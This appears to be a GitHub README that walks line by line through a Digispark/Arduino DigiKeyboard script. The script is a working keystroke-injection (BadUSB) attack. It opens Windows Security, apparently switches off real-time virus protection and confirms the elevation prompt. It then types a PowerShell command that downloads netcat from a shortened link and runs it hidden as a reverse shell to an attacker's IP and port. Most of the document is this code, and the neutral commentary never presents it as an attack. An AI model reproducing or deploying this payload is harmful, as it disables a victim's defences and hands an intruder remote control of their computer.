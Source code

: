 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<h5><code color="#00979C">#include "DigiKeyboard.h"</code></h5>

<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>
  
<em>```This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em>```This line introduces a delay of 1000 milliseconds (1 second) in the program execution.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em>```This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```Another delay of 1000 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
  
<em>```The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Enter key.```<em>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
  
<em>```A delay of 5000 milliseconds (5 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
  
<em>```The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Yet another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>``` Another delay of 700 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Space key.```<em>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
  
<em>```A delay of 2000 milliseconds (2 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```A delay of 1000 milliseconds (1 second) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
  
<em>```The print() function is used to simulate typing the provided string, which contains a PowerShell command.```<em>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the Enter key.```<em>

<code color="#00979C">void loop(){}</code>
<em>```This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.```<em>
```<em>



